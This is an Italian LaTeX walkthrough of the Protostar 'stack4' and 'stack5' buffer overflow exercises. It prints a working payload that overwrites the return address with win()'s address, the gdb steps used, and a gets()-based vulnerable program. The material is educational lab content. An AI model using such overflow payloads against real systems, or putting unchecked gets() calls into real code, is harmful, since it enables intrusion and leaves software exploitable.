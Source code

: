 Costruiamo un input di 76 caratteri 'a' seguito dall'indirizzo di win() in formato Little Endian. L'input richiesto può essere generato con Python, facendo attenzione all'ordine dei byte:
\begin{lstlisting}[style=bashstyle]
    python -c 'print "a" * 76 + "\xf4\x83\x04\x08"'
\end{lstlisting}
Mandiamo stack4 in esecuzione con l'input appena creato con il comando:
\begin{lstlisting}[style=bashstyle]
    python -c 'print "a" * 76 + "\xf4\x83\x04\x08"' | /opt/protostar/bin/stack4 
\end{lstlisting}
Otteniamo il messaggio \begin{lstlisting}[style=bashstyle]
    code flow succesfully changed
    Segmentation fault
\end{lstlisting}
Il messaggio di Segmentation fault è causato dal fatto che dopo l'esecuzione di win() viene letto il valore successivo  sullo stack (rovinato), per riprendere il flusso di esecuzione. Tuttavia, tale fatto non costituisce un problema poichéè siamo riusciti a vincere la sfida.

\subsection{Sintesi comandi da eseguire}
\begin{lstlisting}[style=bashstyle]
    $gdb -q /opt/protostar/bin/stack4
    p win 
    disassemble main
    python -c 'print "a" * 76 + "\xf4\x83\x04\x08"' | /opt/protostar/bin/stack4
\end{lstlisting}

\section{Stack 5}
Stack 5 esamina il buffer overflow e in particolare l'iniezione di shellcode tramite input.
Il programma in questione si chiama \textbf{stack5.c} e il suo eseguibile ha il seguente percorso: \textbf{/opt/protostar/bin/stack5}

Il codice sorgente è il seguente
\begin{lstlisting}[style=cstyle]
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    char buffer[64];

    gets(buffer);
}
\end{lstlisting}

